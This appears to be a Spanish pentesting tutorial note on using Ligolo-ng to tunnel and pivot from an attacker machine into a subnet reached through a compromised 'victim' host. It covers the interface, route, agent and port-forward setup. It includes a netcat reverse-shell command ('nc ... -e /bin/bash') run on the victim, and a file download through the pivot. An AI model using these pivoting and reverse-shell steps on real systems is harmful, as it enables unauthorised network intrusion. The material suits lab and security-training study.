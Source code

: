 **Ligolo-ng** es una herramienta avanzada y simple para realizar tunelización y pivoting en redes. Utiliza una interfaz TUN para crear un stack de red en el espacio de usuario, permitiendo el enrutamiento de tráfico a través de redes comprometidas sin la necesidad de proxies SOCKS

```
https://github.com/nicocha30/ligolo-ng/
```

```
https://www.youtube.com/watch?v=Kimrp9WZPTU
```

# Preparación entorno
![[Pasted image 20240715114120.png]]

# Instalación ligolo
Primero descargamos los ficheros y los descomprimimos
Archivo Proxy
```
7z x ligolo-ng_proxy_0.6.2_linux_arm64.tar.gz
7z x ligolo-ng_proxy_0.6.2_linux_arm64.tar
```

Archivo Agente
```
7z x ligolo-ng_agent_0.6.2_linux_arm64.tar.gz
7z x ligolo-ng_agent_0.6.2_linux_arm64.tar
```

![[Pasted image 20240715114152.png]]
# Crear interfaz de red
```Bash
sudo ip tuntap add user $USER mode tun ligolo
```
![[Pasted image 20240715072848.png]]
- `sudo`: Ejecuta el comando con privilegios de superusuario.
- `ip tuntap`: Es la utilidad que se utiliza para crear, configurar y eliminar interfaces TUN/TAP.
- `add`: Indica que se va a añadir una nueva interfaz.
- `user $user`: Especifica el nombre del usuario que tendrá acceso a la interfaz. `$user` es una variable que contiene el nombre del usuario.
- `mode tun`: Especifica el modo de la interfaz. En este caso, `tun` significa que se está creando una interfaz TUN, que se usa para tunelizar paquetes de nivel 3 (IP).
- `ligolo`: Es el nombre asignado a la nueva interfaz TUN. Este nombre es arbitrario y puede ser cualquier nombre válido para una interfaz de red.

Comprobamos que esta creada con el nombre de ligolo
![[Pasted image 20240715104109.png]]

# Levantar interfaz de red
```
sudo ip link set ligolo up
```
![[Pasted image 20240715073030.png]]
![[Pasted image 20240715102319.png]]

# Revisamos la tabla de enrutamiento
```
ip route
```
![[Pasted image 20240715073346.png]]

# Añadir ruta de red en interfaz
```Bash
sudo ip route add 10.10.10.0/24 dev ligolo
```
![[Pasted image 20240715073924.png]]

Comprobamos que se haya añadido
![[Pasted image 20240715102254.png]]
- `ip`: Es el comando principal para la configuración de red en sistemas Linux.
- `route`: Este subcomando de `ip` se utiliza para manipular la tabla de enrutamiento del kernel.
- `add`: Esta acción indica que se está añadiendo una nueva ruta a la tabla de enrutamiento.
- `10.10.10.0/24`: Es la red de destino a la que se desea agregar una ruta. En este caso, se especifica la red `10.10.10.0` con una máscara de subred `/24`, lo que significa que la máscara de red es `255.255.255.0`.
- `dev ligolo`: Especifica la interfaz de red a través de la cual se debe enrutar el tráfico hacia la red de destino. En este caso, `ligolo` es el nombre de la interfaz de red.


# Asignar permisos a binario proxy
Primero asignamos permisos de ejecución al binario de ligolo
```
chmod +x proxy
```
![[Pasted image 20240715074323.png]]

# Ejecutar ligolo
```
./proxy -selfcert
```
![[Pasted image 20240715074523.png]]

# Conectarse con maquina intermediaria
Primero damos los permisos al binario en la maquina victima
```
chmod +x ./agent
```
![[Pasted image 20240715114345.png]]

Y ahora ejecutamos el binario para conectarnos
```Bash
./agent -connect 192.168.1.2:11601 -ignore-cert
```
![[Pasted image 20240715114429.png]]

Volvemos a nuestra maquina atacante y ya la vemos conectada
![[Pasted image 20240715114449.png]]

Ahora para crear el tunel tendremos que conectarnos a la sesion
```
session
'seleccionamos el tunel'
start
```
![[Pasted image 20240715114513.png]]

Como podemos ver ya tendriamos acceso a la maquina de la subred a la que no teniamos acceso
![[Pasted image 20240715114536.png]]

Y ya tendriamos acceso a la subred a la cual queremos hacer pivoting, el problema ahora es que nosotros tenemos acceso a las maquinas del segmento de red al cual antes no teniamos acceso pero esas maquinas no pueden vernos, esto es un problema para la transferencia de archivos o generarnos una reverse shell, para solucionar esto realizaremos portforwarding desde la terminal de ligolo, para ello ejecutaremos el siguiente comando en la terminal de ligolo
```
listener_add --addr 0.0.0.0:8080 --to 127.0.0.1:80
```
![[Pasted image 20240715114613.png]]

Lo verificamos
```
listener_list
````
![[Pasted image 20240715114631.png]]

Y ahora ya podrian vernos desde la ip de la maquina intermediaria por el puerto 8080, si iniciaramos un servidor desde nuestra maquina podriamos descargarlo con el siguiente comando
```
wget 192.168.10.13:8080/test.txt
```
![[Pasted image 20240715115200.png]]

Si comprobamos en nuestra maquina de kali veremos como aparecere la conexión
![[Pasted image 20240715115238.png]]

Y podremos generarnos una reverse shell, para ello nos ponemos en escucha por el puerto configurado
![[Pasted image 20240715115451.png]]

Y ejecutamos netcat en la maquina victima
```
nc 10.10.10.13 8080 -e /bin/bash 
```
![[Pasted image 20240715115600.png]]


-------
# Configurar varias redirecciones de puertos
Podemos tener mas de un puerto configurado
![[Pasted image 20240715115401.png]]
# Conecxión agent desde maquina windows
Si la maquina intermediaria fuera Windows el comando seria el siguiente
```Powershell
.\agent.exe -connect 192.168.0.14:11601 -ignore-cert
```


------------
# Eliminar interfaz de red
```
sudo ip link delete ligolo
```



-----
# Solucionar error
Cuando suspendemos el servicio pero sigue escuchando como vemos en la siguiente imagen
![[Pasted image 20240715103525.png]]

Tenemos que verificar el proceso que este abierto
```
netstat -tulpn
```
![[Pasted image 20240715103620.png]]

```
sudo kill -9 7042
```
![[Pasted image 20240715103708.png]]

Y si ahora lo revisamos ya no esta activo
![[Pasted image 20240715103742.png]]
